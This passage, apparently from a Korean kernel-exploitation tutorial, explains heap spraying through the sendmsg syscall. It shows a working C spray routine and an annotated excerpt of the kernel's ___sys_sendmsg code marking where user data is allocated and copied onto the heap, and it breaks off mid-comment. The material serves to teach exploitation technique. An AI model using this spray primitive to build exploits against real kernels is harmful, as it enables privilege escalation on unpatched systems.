 ## Spraying Example
```c
void spray_sendmsg() {
  char buf[BUF_SIZE];
  struct msghdr msg = {0};
  struct sockaddr_in addr = {0};
  int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
  memset(buf, 0x42, BUF_SIZE);

  addr.sin_addr.s_addr = htonl(INADDR_LOOPBACK);
  addr.sin_family = AF_INET;
  addr.sin_port = htons(6666);

  msg.msg_control = buf;
  msg.msg_controllen = BUF_SIZE;
  msg.msg_name = (caddr_t)&addr;
  msg.msg_namelen = sizeof(addr);

  for(int i = 0; i < 100000; i++) {
    sendmsg(sockfd, &msg, 0);
  }
}
```

## Overview
`send(m)msg` syscall 호출시 `sock_kmalloc` 호출[1] 후 `copy_from_user` 호출[2]을 통해 힙 영역에 사용자가 인자로 전달한 문자열을 스프레잉하게 된다.



## Syscall Analysis
```c
static int ___sys_sendmsg(struct socket *sock, struct user_msghdr __user *msg,
			 struct msghdr *msg_sys, unsigned int flags,
			 struct used_address *used_address,
			 unsigned int allowed_msghdr_flags)
{
	...

[3]  if (msg_sys->msg_controllen > INT_MAX)
		goto out_freeiov;
	flags |= (msg_sys->msg_flags & allowed_msghdr_flags);
	ctl_len = msg_sys->msg_controllen;
	if ((MSG_CMSG_COMPAT & flags) && ctl_len) {
		err =
		    cmsghdr_from_user_compat_to_kern(msg_sys, sock->sk, ctl,
						     sizeof(ctl));
		if (err)
			goto out_freeiov;
		ctl_buf = msg_sys->msg_control;
		ctl_len = msg_sys->msg_controllen;
	} else if (ctl_len) {
		BUILD_BUG_ON(sizeof(struct cmsghdr) !=
			     CMSG_ALIGN(sizeof(struct cmsghdr)));
		if (ctl_len > sizeof(ctl)) {
[1]			ctl_buf = sock_kmalloc(sock->sk, ctl_len, GFP_KERNEL);
			if (ctl_buf == NULL)
				goto out_freeiov;
		}
		err = -EFAULT;
		/*
		 * Careful! Before this, msg_sys->msg_control contains a user pointer.
		 * Afterwards, it will be a kernel pointer. Thus the compiler-assisted
```